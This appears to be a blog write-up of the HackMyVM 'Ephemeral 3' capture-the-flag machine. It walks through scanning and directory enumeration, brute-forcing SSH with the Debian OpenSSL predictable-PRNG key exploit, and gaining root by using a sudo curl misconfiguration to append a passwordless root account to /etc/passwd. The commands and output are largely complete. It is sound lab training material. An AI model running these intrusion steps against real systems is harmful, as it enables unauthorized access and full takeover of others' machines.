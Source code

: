 [https://hackmyvm.eu/machines/machine.php?vm=Ephemeral3](https://hackmyvm.eu/machines/machine.php?vm=Ephemeral3&ref=rootandbeer.com)

In the "Ephemeral 3" CTF challenge, the exploitation process involved several key techniques and vulnerabilities. Initially, an [[Nmap]] scan revealed SSH and HTTP services running on the target machine. Directory enumeration with [[Gobuster]] led to the discovery of a note indicating the generation of SSH keys using OpenSSL. Leveraging a known vulnerability in OpenSSL, a predictable PRNG brute-force attack was used to obtain a valid SSH key, allowing access to the system as the user "randy."

Once inside, privilege escalation was achieved by exploiting a sudo misconfiguration that allowed the use of `curl` as the user "henry." This was used to modify the `/etc/passwd` file, adding a new user with root privileges. The challenge was successfully completed by accessing the root account and capturing the final flag.

**Initial [[Nmap]] scan of the box to notice ports `80` and `22` are open**

```bash
└─$ nmap -A -sC -p- 192.168.5.123                         
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-11 14:05 UTC
Stats: 0:00:09 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 50.00% done; ETC: 14:05 (0:00:06 remaining)
Nmap scan report for 192.168.5.123
Host is up (0.011s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 f0:f2:b8:e0:da:41:9b:96:3b:b6:2b:98:95:4c:67:60 (RSA)
|   256 a8:cd:e7:a7:0e:ce:62:86:35:96:02:43:9e:3e:9a:80 (ECDSA)
|_  256 14:a7:57:a9:09:1a:7e:7e:ce:1e:91:f3:b1:1d:1b:fd (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.12 seconds
```

**Run [[Gobuster]] to discover the `/agency` and `/note.txt` objects:**

```bash
└─$ gobuster dir -u http://192.168.5.123 -e -r -x html,htm,asp,aspx,jsp,php,cgi,txt,xml -w /usr/share/wordlists/dirb/common.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
...
http://192.168.5.123/agency               (Status: 200) [Size: 18726]
http://192.168.5.123/index.html           (Status: 200) [Size: 10918]
http://192.168.5.123/index.html           (Status: 200) [Size: 10918]
http://192.168.5.123/note.txt             (Status: 200) [Size: 159]
```

**Going to *[http://192.168.5.123/note.txt](http://192.168.5.123/note.txt?ref=rootandbeer.com)* to see contents:**

>[!quote]
> Hey! I just generated your keys with OpenSSL. You should be able to use your private key now!  
> If you have any questions just email me at [henry@ephemeral.com](mailto:henry@ephemeral.com)

**Lets see if we can find OpenSSL and SSH exploit using [[Searchsploit]] and download it**

```bash
└─$ searchsploit openssl         
------------------------------------------------------------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                                                                          |  Path
------------------------------------------------------------------------------------------------------------------------ ---------------------------------
...
OpenSSL 0.9.8c-1 < 0.9.8g-9 (Debian and Derivatives) - Predictable PRNG Brute Force SSH                                 | linux/remote/5622.txt
OpenSSL 0.9.8c-1 < 0.9.8g-9 (Debian and Derivatives) - Predictable PRNG Brute Force SSH                                 | linux/remote/5720.py
OpenSSL 0.9.8c-1 < 0.9.8g-9 (Debian and Derivatives) - Predictable PRNG Brute Force SSH (Ruby)                          | linux/remote/5632.rb
...

└─$ searchsploit -m linux/remote/5720.py     
  Exploit: OpenSSL 0.9.8c-1 < 0.9.8g-9 (Debian and Derivatives) - Predictable PRNG Brute Force SSH
      URL: https://www.exploit-db.com/exploits/5720
     Path: /usr/share/exploitdb/exploits/linux/remote/5720.py
    Codes: OSVDB-45029, CVE-2008-3280, CVE-2008-0166
 Verified: True
File Type: Python script, ASCII text executable
Copied to: /home/kali/5720.py
```

**Taking a look at the exploit's contents for installation instructions... apparently we need to download preset keys...**

```bash
└─$ cat 5720.py        
#!/bin/python
#       This program is free software; you can redistribute it and/or modify
#       it under the terms of the GNU General Public License as published by
#       the Free Software Foundation; either version 2 of the License, or
#       (at your option) any later version.
#
#       This program is distributed in the hope that it will be useful,
#       but WITHOUT ANY WARRANTY; without even the implied warranty of
#       MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
#       GNU General Public License for more details.
#
#       You should have received a copy of the GNU General Public License
#       along with this program; if not, write to the Free Software
#       Foundation, Inc., 51 Franklin Street, Fifth Floor, Boston,
#       MA 02110-1301, USA.
############################################################################
# Autor: hitz - WarCat team (warcat.no-ip.org)
# Collaborator: pretoriano
#
# 1. Download https://gitlab.com/exploit-database/exploitdb-bin-sploits/-/raw/main/bin-sploits/5622.tar.bz2 (debian_ssh_rsa_2048_x86.tar.bz2)
#
# 2. Extract it to a directory
#
# 3. Execute the python script
#     - something like: python exploit.py /home/hitz/keys 192.168.1.240 root 22 5
#     - execute: python exploit.py (without parameters) to display the help
#     - if the key is found, the script shows something like that:
#         Key Found in file: ba7a6b3be3dac7dcd359w20b4afd5143-1121
#                 Execute: ssh -lroot -p22 -i /home/hitz/keys/ba7a6b3be3dac7dcd359w20b4afd5143-1121 192.168.1.240
############################################################################
...
```

**Lets download the keys**

```bash
└─$ wget https://gitlab.com/exploit-database/exploitdb-bin-sploits/-/raw/main/bin-sploits/5622.tar.bz2    
--2024-08-11 14:40:21--  https://gitlab.com/exploit-database/exploitdb-bin-sploits/-/raw/main/bin-sploits/5622.tar.bz2
Resolving gitlab.com (gitlab.com)... 172.65.251.78, 2606:4700:90:0:f22e:fbec:5bed:a9b9
Connecting to gitlab.com (gitlab.com)|172.65.251.78|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 50226987 (48M) [application/octet-stream]
Saving to: ‘5622.tar.bz2’

5622.tar.bz2                           100%[==========================================================================>]  47.90M  57.7MB/s    in 0.8s    

2024-08-11 14:40:22 (57.7 MB/s) - ‘5622.tar.bz2’ saved [50226987/50226987]

└─$ tar -xvf 5622* 
rsa/
rsa/2048/
rsa/2048/2712a6d5cec99f295a0c468b830a370d-28940.pub
rsa/2048/eaddc9bba9bf3c0832f443706903cd14-28712.pub
rsa/2048/0bdcea11b2c628c7fd8bc4b04ca43668-12474
rsa/2048/3fabfedd883c3cef69881a4fc30fdac7-3828.pub
rsa/2048/a508919ec49fcf91ad0ecf8472349d9b-3039.pub
rsa/2048/9ddc1879b9ac311f24a81e835aac5866-28340.pub
...
```

**Attempted to brute force the key and got a match**

```bash
└─$ python2 5720.py rsa/2048 192.168.5.123 randy 

-OpenSSL Debian exploit- by ||WarCat team|| warcat.no-ip.org
...
Key Found in file: 0028ca6d22c68ed0a1e3f6f79573100a-31671
Execute: ssh -lrandy -p22 -i rsa/2048/0028ca6d22c68ed0a1e3f6f79573100a-31671 192.168.5.123
Tested 25610 keys | Remaining 7158 keys | Aprox. Speed 4/sec
```

**Executing the command given to us in the output of the script to login as `randy`**

```bash
└─$ ssh -lrandy -p22 -i rsa/2048/0028ca6d22c68ed0a1e3f6f79573100a-31671 192.168.5.123
Welcome to Ubuntu 20.04.4 LTS (GNU/Linux 5.13.0-30-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

71 updates can be applied immediately.
To see these additional updates run: apt list --upgradable

New release '22.04.3 LTS' available.
Run 'do-release-upgrade' to upgrade to it.

Your Hardware Enablement Stack (HWE) is supported until April 2025.
*** System restart required ***
Last login: Fri Jun 24 01:17:05 2022 from 10.0.0.69
randy@ephemeral:~$
```

**List commands that can be run with `sudo`**

```bash
randy@ephemeral:~$ sudo -l
Matching Defaults entries for randy on ephemeral:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User randy may run the following commands on ephemeral:
    (henry) NOPASSWD: /usr/bin/curl
```

**Found user flag in the `henry` home directory**

```bash
randy@ephemeral:~$ ls /home/henry
user.txt
 
randy@ephemeral:~$ sudo -u henry /usr/bin/curl file:/
9c8e36<REDACTED>56bca0c3a
```

**Search for other files owned by `henry` to discover that the `henry` group has write access to `/etc/passwd`:**

```bash
randy@ephemeral:~$ find / -xdev \( -user henry -o -group henry \) -print 2>&1 |grep -v "Permission denied"
```

**Since we have write access to the `passwd` file, we can add another user in that is apart of the root user and group then overwrite `/etc/passwd` file using `curl`**

```bash
randy@ephemeral:~$ cp /etc/passwd ./passwd
randy@ephemeral:~$ echo "root2::0:0::/home/:/bin/bash" >> ./passwd
randy@ephemeral:~$ sudo -u henry /usr/bin/curl "file:///home/randy/passwd" -o /etc/passwd
randy@ephemeral:~$ su root2
root@ephemeral:/home/randy# whoami
root
root@ephemeral: cat /root/root.txt
b0a3dec<REDACTED>062cec4d
```

---